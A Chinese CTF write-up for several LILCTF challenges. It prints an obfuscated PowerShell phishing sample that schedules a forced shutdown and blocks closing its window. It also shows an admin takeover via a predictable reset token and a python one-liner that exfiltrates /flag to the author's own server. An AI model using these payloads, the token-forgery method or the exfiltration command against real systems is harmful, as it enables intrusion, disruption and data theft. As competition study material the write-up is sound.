[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]84+[CHar]101+[CHar]120+[CHar]116+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]67+[CHar]105+[CHar]97+[CHar]108+[CHar]108+[CHar]111+[CHar]65374+[CHar]40+[CHar]8736+[CHar]183+[CHar]969+[CHar]60+[CHar]32+[CHar]41+[CHar]8978+[CHar]9733+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]83+[CHar]116+[CHar]97+[CHar]114+[CHar]116+[CHar]80+[CHar]111+[CHar]115+[CHar]105+[CHar]116+[CHar]105+[CHar]111+[CHar]110+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]77+[CHar]97+[CHar]110+[CHar]117+[CHar]97+[CHar]108+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]76+[CHar]111+[CHar]99+[CHar]97+[CHar]116+[CHar]105+[CHar]111+[CHar]110+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]46+[CHar]80+[CHar]111+[CHar]105+[CHar]110+[CHar]116+[CHar]40+[CHar]52+[CHar]48+[CHar]44+[CHar]32+[CHar]52+[CHar]48+[CHar]41+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]83+[CHar]105+[CHar]122+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]46+[CHar]83+[CHar]105+[CHar]122+[CHar]101+[CHar]40+[CHar]55+[CHar]50+[CHar]48+[CHar]44+[CHar]32+[CHar]52+[CHar]56+[CHar]48+[CHar]41+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]77+[CHar]105+[CHar]110+[CHar]105+[CHar]109+[CHar]97+[CHar]108+[CHar]83+[CHar]105+[CHar]122+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]46+[CHar]83+[CHar]105+[CHar]122+[CHar]101+[CHar]40+[CHar]55+[CHar]50+[CHar]48+[CHar]44+[CHar]32+[CHar]52+[CHar]56+[CHar]48+[CHar]41+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]77+[CHar]97+[CHar]120+[CHar]105+[CHar]109+[CHar]97+[CHar]108+[CHar]83+[CHar]105+[CHar]122+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]46+[CHar]83+[CHar]105+[CHar]122+[CHar]101+[CHar]40+[CHar]55+[CHar]50+[CHar]48+[CHar]44+[CHar]32+[CHar]52+[CHar]56+[CHar]48+[CHar]41+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]66+[CHar]111+[CHar]114+[CHar]100+[CHar]101+[CHar]114+[CHar]83+[CHar]116+[CHar]121+[CHar]108+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]70+[CHar]105+[CHar]120+[CHar]101+[CHar]100+[CHar]68+[CHar]105+[CHar]97+[CHar]108+[CHar]111+[CHar]103+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]66+[CHar]97+[CHar]99+[CHar]107+[CHar]67+[CHar]111+[CHar]108+[CHar]111+[CHar]114+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]35+[CHar]48+[CHar]48+[CHar]55+[CHar]55+[CHar]67+[CHar]67+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]77+[CHar]97+[CHar]120+[CHar]105+[CHar]109+[CHar]105+[CHar]122+[CHar]101+[CHar]66+[CHar]111+[CHar]120+[CHar]32+[CHar]61+[CHar]32+[CHar]36+[CHar]70+[CHar]97+[CHar]108+[CHar]115+[CHar]101+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]84+[CHar]111+[CHar]112+[CHar]77+[CHar]111+[CHar]115+[CHar]116+[CHar]32+[CHar]61+[CHar]32+[CHar]36+[CHar]84+[CHar]114+[CHar]117+[CHar]101+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]36+[CHar]102+[CHar]70+[CHar]49+[CHar]73+[CHar]65+[CHar]52+[CHar]57+[CHar]71+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]76+[CHar]73+[CHar]76+[CHar]67+[CHar]84+[CHar]70+[CHar]123+[CHar]66+[CHar]69+[CHar]95+[CHar]86+[CHar]73+[CHar]71+[CHar]108+[CHar]76+[CHar]65+[CHar]78+[CHar]55+[CHar]95+[CHar]97+[CHar]54+[CHar]64+[CHar]108+[CHar]78+[CHar]36+[CHar]55+[CHar]95+[CHar]112+[CHar]104+[CHar]49+[CHar]53+[CHar]72+[CHar]73+[CHar]78+[CHar]71+[CHar]125+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]102+[CHar]70+[CHar]49+[CHar]73+[CHar]65+[CHar]52+[CHar]57+[CHar]71+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]78+[CHar]48+[CHar]112+[CHar]101+[CHar]34+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]49+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]87+[CHar]105+[CHar]110+[CHar]100+[CHar]111+[CHar]119+[CHar]115+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]115+[CHar]46+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]49+[CHar]46+[CHar]84+[CHar]101+[CHar]120+[CHar]116+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]58+[CHar]41+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]49+[CHar]46+[CHar]76+[CHar]111+[CHar]99+[CHar]97+[CHar]116+[CHar]105+[CHar]111+[CHar]110+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]46+[CHar]80+[CHar]111+[CHar]105+[CHar]110+[CHar]116+[CHar]40+[CHar]54+[CHar]52+[CHar]44+[CHar]32+[CHar]56+[CHar]48+[CHar]41+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]49+[CHar]46+[CHar]65+[CHar]117+[CHar]116+[CHar]111+[CHar]83+[CHar]105+[CHar]122+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]36+[CHar]84+[CHar]114+[CHar]117+[CHar]101+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]49+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]101+[CHar]67+[CHar]111+[CHar]108+[CHar]111+[CHar]114+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]87+[CHar]104+[CHar]105+[CHar]116+[CHar]101+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]49+[CHar]46+[CHar]70+[CHar]111+[CHar]110+[CHar]116+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]46+[CHar]70+[CHar]111+[CHar]110+[CHar]116+[CHar]40+[CHar]34+[CHar]67+[CHar]111+[CHar]110+[CHar]115+[CHar]111+[CHar]108+[CHar]97+[CHar]115+[CHar]34+[CHar]44+[CHar]32+[CHar]54+[CHar]52+[CHar]41+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]50+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]87+[CHar]105+[CHar]110+[CHar]100+[CHar]111+[CHar]119+[CHar]115+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]115+[CHar]46+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]50+[CHar]46+[CHar]84+[CHar]101+[CHar]120+[CHar]116+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]36825+[CHar]37324+[CHar]27809+[CHar]26377+[CHar]32+[CHar]102+[CHar]108+[CHar]97+[CHar]103+[CHar]65307+[CHar]36825+[CHar]20010+[CHar]31383+[CHar]21475+[CHar]26159+[CHar]24590+[CHar]20040+[CHar]20986+[CHar]29616+[CHar]30340+[CHar]21602+[CHar]65292+[CHar]102+[CHar]108+[CHar]97+[CHar]103+[CHar]32+[CHar]23601+[CHar]22312+[CHar]37027+[CHar]37324+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]50+[CHar]46+[CHar]76+[CHar]111+[CHar]99+[CHar]97+[CHar]116+[CHar]105+[CHar]111+[CHar]110+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]46+[CHar]80+[CHar]111+[CHar]105+[CHar]110+[CHar]116+[CHar]40+[CHar]54+[CHar]52+[CHar]44+[CHar]32+[CHar]50+[CHar]52+[CHar]48+[CHar]41+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]50+[CHar]46+[CHar]65+[CHar]117+[CHar]116+[CHar]111+[CHar]83+[CHar]105+[CHar]122+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]36+[CHar]84+[CHar]114+[CHar]117+[CHar]101+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]50+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]101+[CHar]67+[CHar]111+[CHar]108+[CHar]111+[CHar]114+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]87+[CHar]104+[CHar]105+[CHar]116+[CHar]101+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]50+[CHar]46+[CHar]70+[CHar]111+[CHar]110+[CHar]116+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]46+[CHar]70+[CHar]111+[CHar]110+[CHar]116+[CHar]40+[CHar]34+[CHar]24494+[CHar]36719+[CHar]38597+[CHar]40657+[CHar]34+[CHar]44+[CHar]32+[CHar]49+[CHar]54+[CHar]41+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]51+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]87+[CHar]105+[CHar]110+[CHar]100+[CHar]111+[CHar]119+[CHar]115+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]115+[CHar]46+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]51+[CHar]46+[CHar]84+[CHar]101+[CHar]120+[CHar]116+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]20320+[CHar]30340+[CHar]30005+[CHar]33041+[CHar]23558+[CHar]22312+[CHar]32+[CHar]49+[CHar]48+[CHar]32+[CHar]20998+[CHar]38047+[CHar]21518+[CHar]20851+[CHar]26426+[CHar]65292+[CHar]35831+[CHar]20445+[CHar]23384+[CHar]20320+[CHar]30340+[CHar]24037+[CHar]20316+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]51+[CHar]46+[CHar]76+[CHar]111+[CHar]99+[CHar]97+[CHar]116+[CHar]105+[CHar]111+[CHar]110+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]46+[CHar]80+[CHar]111+[CHar]105+[CHar]110+[CHar]116+[CHar]40+[CHar]54+[CHar]52+[CHar]44+[CHar]32+[CHar]51+[CHar]48+[CHar]48+[CHar]41+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]51+[CHar]46+[CHar]65+[CHar]117+[CHar]116+[CHar]111+[CHar]83+[CHar]105+[CHar]122+[CHar]101+[CHar]32+[CHar]61+[CHar]32+[CHar]36+[CHar]84+[CHar]114+[CHar]117+[CHar]101+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]51+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]101+[CHar]67+[CHar]111+[CHar]108+[CHar]111+[CHar]114+[CHar]32+[CHar]61+[CHar]32+[CHar]34+[CHar]87+[CHar]104+[CHar]105+[CHar]116+[CHar]101+[CHar]34+[CHar]13+[CHar]10+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]51+[CHar]46+[CHar]70+[CHar]111+[CHar]110+[CHar]116+[CHar]32+[CHar]61+[CHar]32+[CHar]78+[CHar]101+[CHar]119+[CHar]45+[CHar]79+[CHar]98+[CHar]106+[CHar]101+[CHar]99+[CHar]116+[CHar]32+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]68+[CHar]114+[CHar]97+[CHar]119+[CHar]105+[CHar]110+[CHar]103+[CHar]46+[CHar]70+[CHar]111+[CHar]110+[CHar]116+[CHar]40+[CHar]34+[CHar]24494+[CHar]36719+[CHar]38597+[CHar]40657+[CHar]34+[CHar]44+[CHar]32+[CHar]49+[CHar]54+[CHar]41+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]67+[CHar]111+[CHar]110+[CHar]116+[CHar]114+[CHar]111+[CHar]108+[CHar]115+[CHar]46+[CHar]65+[CHar]100+[CHar]100+[CHar]82+[CHar]97+[CHar]110+[CHar]103+[CHar]101+[CHar]40+[CHar]64+[CHar]40+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]49+[CHar]44+[CHar]32+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]50+[CHar]44+[CHar]32+[CHar]36+[CHar]76+[CHar]97+[CHar]98+[CHar]101+[CHar]108+[CHar]51+[CHar]41+[CHar]41+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]65+[CHar]100+[CHar]100+[CHar]95+[CHar]83+[CHar]104+[CHar]111+[CHar]119+[CHar]110+[CHar]40+[CHar]123+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]65+[CHar]99+[CHar]116+[CHar]105+[CHar]118+[CHar]97+[CHar]116+[CHar]101+[CHar]40+[CHar]41+[CHar]125+[CHar]41+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]65+[CHar]100+[CHar]100+[CHar]95+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]67+[CHar]108+[CHar]111+[CHar]115+[CHar]105+[CHar]110+[CHar]103+[CHar]40+[CHar]123+[CHar]13+[CHar]10+[CHar]32+[CHar]32+[CHar]32+[CHar]32+[CHar]36+[CHar]95+[CHar]46+[CHar]67+[CHar]97+[CHar]110+[CHar]99+[CHar]101+[CHar]108+[CHar]32+[CHar]61+[CHar]32+[CHar]36+[CHar]84+[CHar]114+[CHar]117+[CHar]101+[CHar]13+[CHar]10+[CHar]32+[CHar]32+[CHar]32+[CHar]32+[CHar]91+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]87+[CHar]105+[CHar]110+[CHar]100+[CHar]111+[CHar]119+[CHar]115+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]115+[CHar]46+[CHar]77+[CHar]101+[CHar]115+[CHar]115+[CHar]97+[CHar]103+[CHar]101+[CHar]66+[CHar]111+[CHar]120+[CHar]93+[CHar]58+[CHar]58+[CHar]83+[CHar]104+[CHar]111+[CHar]119+[CHar]40+[CHar]34+[CHar]19981+[CHar]20801+[CHar]35768+[CHar]20851+[CHar]38381+[CHar]65281+[CHar]34+[CHar]44+[CHar]32+[CHar]34+[CHar]25552+[CHar]31034+[CHar]34+[CHar]44+[CHar]32+[CHar]91+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]87+[CHar]105+[CHar]110+[CHar]100+[CHar]111+[CHar]119+[CHar]115+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]115+[CHar]46+[CHar]77+[CHar]101+[CHar]115+[CHar]115+[CHar]97+[CHar]103+[CHar]101+[CHar]66+[CHar]111+[CHar]120+[CHar]66+[CHar]117+[CHar]116+[CHar]116+[CHar]111+[CHar]110+[CHar]115+[CHar]93+[CHar]58+[CHar]58+[CHar]79+[CHar]75+[CHar]44+[CHar]32+[CHar]91+[CHar]83+[CHar]121+[CHar]115+[CHar]116+[CHar]101+[CHar]109+[CHar]46+[CHar]87+[CHar]105+[CHar]110+[CHar]100+[CHar]111+[CHar]119+[CHar]115+[CHar]46+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]115+[CHar]46+[CHar]77+[CHar]101+[CHar]115+[CHar]115+[CHar]97+[CHar]103+[CHar]101+[CHar]66+[CHar]111+[CHar]120+[CHar]73+[CHar]99+[CHar]111+[CHar]110+[CHar]93+[CHar]58+[CHar]58+[CHar]73+[CHar]110+[CHar]102+[CHar]111+[CHar]114+[CHar]109+[CHar]97+[CHar]116+[CHar]105+[CHar]111+[CHar]110+[CHar]41+[CHar]13+[CHar]10+[CHar]125+[CHar]41+[CHar]13+[CHar]10+[CHar]13+[CHar]10+[CHar]36+[CHar]70+[CHar]111+[CHar]114+[CHar]109+[CHar]46+[CHar]83+[CHar]104+[CHar]111+[CHar]119+[CHar]68+[CHar]105+[CHar]97+[CHar]108+[CHar]111+[CHar]103+[CHar]40+[CHar]41+[CHar]32+[CHar]124+[CHar]32+[CHar]79+[CHar]117+[CHar]116+[CHar]45+[CHar]78+[CHar]117+[CHar]108+[CHar]108)  
```
用 UTF-16 读取数值，拼接：
```
$DebugPreference = $ErrorActionPreference = $VerbosePreference = $WarningPreference = "SilentlyContinue"

[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms")
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")

shutdown /s /t 600 >$Null 2>&1

$Form = New-Object System.Windows.Forms.Form
$Form.Text = "Ciallo～(∠·ω< )⌒★"
$Form.StartPosition = "Manual"
$Form.Location = New-Object System.Drawing.Point(40, 40)
$Form.Size = New-Object System.Drawing.Size(720, 480)
$Form.MinimalSize = New-Object System.Drawing.Size(720, 480)
$Form.MaximalSize = New-Object System.Drawing.Size(720, 480)
$Form.FormBorderStyle = "FixedDialog"
$Form.BackColor = "#0077CC"
$Form.MaximizeBox = $False
$Form.TopMost = $True


$fF1IA49G = "LILCTF{BE_VIGlLAN7_a6@lN$7_ph15HING}"
$fF1IA49G = "N0pe"


$Label1 = New-Object System.Windows.Forms.Label
$Label1.Text = ":)"
$Label1.Location = New-Object System.Drawing.Point(64, 80)
$Label1.AutoSize = $True
$Label1.ForeColor = "White"
$Label1.Font = New-Object System.Drawing.Font("Consolas", 64)

$Label2 = New-Object System.Windows.Forms.Label
$Label2.Text = "这里没有 flag；这个窗口是怎么出现的呢，flag 就在那里"
$Label2.Location = New-Object System.Drawing.Point(64, 240)
$Label2.AutoSize = $True
$Label2.ForeColor = "White"
$Label2.Font = New-Object System.Drawing.Font("微软雅黑", 16)

$Label3 = New-Object System.Windows.Forms.Label
$Label3.Text = "你的电脑将在 10 分钟后关机，请保存你的工作"
$Label3.Location = New-Object System.Drawing.Point(64, 300)
$Label3.AutoSize = $True
$Label3.ForeColor = "White"
$Label3.Font = New-Object System.Drawing.Font("微软雅黑", 16)

$Form.Controls.AddRange(@($Label1, $Label2, $Label3))

$Form.Add_Shown({$Form.Activate()})
$Form.Add_FormClosing({
    $_.Cancel = $True
    [System.Windows.Forms.MessageBox]::Show("不允许关闭！", "提示", [System.Windows.Forms.MessageBoxButtons]::OK, [System.Windows.Forms.MessageBoxIcon]::Information)
})

$Form.ShowDialog() | Out-Null
```
……不得不说 `shutdown /s /t 600` 也是够狠的，虽然完全来得及 `shutdown /a`。
```
LILCTF{BE_VIGlLAN7_a6@lN$7_ph15HING}
```

## \[crypto\] Linear
解题者：Ishisashi

提交时间：2025-08-15 21:02:20 (UTC+8)

强的不是我，是 Mathematica（
```Python
import pyperclip
import pwn

rr = pwn.remote('challenge.xinshi.fun', 32842)
A = rr.recvline().decode().replace('[', '{').replace(']', '}')
b = rr.recvline().decode().replace('[', '{').replace(']', '}')
pyperclip.copy(f'A={A}b={b}x={{x0,x1,x2,x3,x4,x5,x6,x7,x8,x9,x10,x11,x12,x13,x14,x15,x16,x17,x18,x19,x20,x21,x22,x23,x24,x25,x26,x27,x28,x29,x30,x31}}\nSolve[A.x==b,x,Integers,Assumptions->1<=x0<=114514&&1<=x1<=114514&&1<=x2<=114514&&1<=x3<=114514&&1<=x4<=114514&&1<=x5<=114514&&1<=x6<=114514&&1<=x7<=114514&&1<=x8<=114514&&1<=x9<=114514&&1<=x10<=114514&&1<=x11<=114514&&1<=x12<=114514&&1<=x13<=114514&&1<=x14<=114514&&1<=x15<=114514&&1<=x16<=114514&&1<=x17<=114514&&1<=x18<=114514&&1<=x19<=114514&&1<=x20<=114514&&1<=x21<=114514&&1<=x22<=114514&&1<=x23<=114514&&1<=x24<=114514&&1<=x25<=114514&&1<=x26<=114514&&1<=x27<=114514&&1<=x28<=114514&&1<=x29<=114514&&1<=x30<=114514&&1<=x31<=114514][[1,All,2]]')
print('Ready!')
eq = pyperclip.waitForNewPaste().replace('{', '').replace('}', '').replace(' ', '').replace(',', ' ').encode()
rr.sendlineafter(b'Enter your solution: ', eq)
print(rr.recvline())
print(rr.recvline())
```
这次为了加快速度，头一回用上了 pwntools。

……结果还是用剪贴版当胶水吗。
```
[x] Opening connection to challenge.xinshi.fun on port 32842
[x] Opening connection to challenge.xinshi.fun on port 32842: Trying 110.42.47.200
[+] Opening connection to challenge.xinshi.fun on port 32842: Done
Ready!
b'Bravo! Here is your flag:\n'
b'LILCTF{2d36efef-9ee5-4dc9-ba7e-179b219837d0}\n'
[*] Closed connection to challenge.xinshi.fun port 32842
```
```
LILCTF{2d36efef-9ee5-4dc9-ba7e-179b219837d0}
```

### Omake


## \[web\] Ekko_note
解题者：RenzukaCtone

提交时间：2025-08-15 23:57:32 (UTC+8)

分析 .py。目标很明确，要任意执行命令，需要改掉时间 API 让时间到 2066 年之后，只有 admin 能改这个 API。

脚本给了很明显的提示

```python
# 欸我艹这两行代码测试用的忘记删了，欸算了都发布了，我们都在用力地活着，跟我的下班说去吧。
# 反正整个程序没有一个地方用到random库。应该没有什么问题。
import random
random.seed(SERVER_START_TIME)

# 选哪个UUID版本好呢，好头疼 >_<
# UUID v8吧，看起来版本比较新
token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
reset_token = PasswordResetToken(user_id=user.id, token=token)
db.session.add(reset_token)
db.session.commit()
# TODO：写一个SMTP服务把token发出去
flash(f'密码恢复token已经发送，请检查你的邮箱', 'info')
```

很难不注意到这里。那应该是要从这个 UUID v8 入手。装了 python 3.14 rc2 来测试数值，每次的结果都不一样。

啊，那肯定和那个 random.seed() 有关啦。在靶机上随便注册一个账户后就能收到 SERVER_START_TIME。

在恢复 admin 密码页面用生成的 UUID 就可以改密码了。


靶机可以出网，拿自己的主机开了个 HTTP 服务，响应固定的 JSON 数据。

然后开始任意执行命令拿 flag。执行命令是看不到输出的。最开始用 cat /flag > /www/index.php 再刷新页面，发现行不通，可能 bottle 提前把这些 templates 读到内存里了吧。

用了不少办法，感觉缺很多基本工具 (curl 等等)，最后想到靶机后端强大的 python。

```python
python -c "import os;import http.client;conn = http.client.HTTPConnection('{我的服务器}');str=open('/flag', 'r', encoding='utf-8').read();conn.request('POST', '/upload', body=str)"
```

```JavaScript
const express = require('express');
const app = express();

app.use(express.json());

app.post('/', (req, res) => {
  console.log('Received data:', req.body);
  res.send('Data received');
});

app.listen(20098, () => {
  console.log('Server is listening on port 20098');
});

```


## \[crypto\] Space Travel
解题者：Ishisashi

提交时间：2025-08-16 12:48:51 (UTC+8)

不妨把 key 和 nonce 看成两个八百维 GF(2) 向量，位与结果中 1 的个数的奇偶也就成了两个向量的点积。于是得到了 600 个方程。

然后再来看 vecs 的特征。元素都是 16 位二进制数，但却只有 4096 个，说明这些元素内部一定有冗余信息。稍微试了下发现，截取中间 12 位（也就是左边和右边各去掉 2 位）的话就是无重复的，大胆猜测左右两侧的位是中间各位的简单异或。

为了直观找寻规律，可以将中间 12 位按格雷码排列。肉眼观察每位突变时的情况，总结出以下规律：
```
v[0] == v[3] + v[7] + v[9] + v[11] + v[12] + v[13]
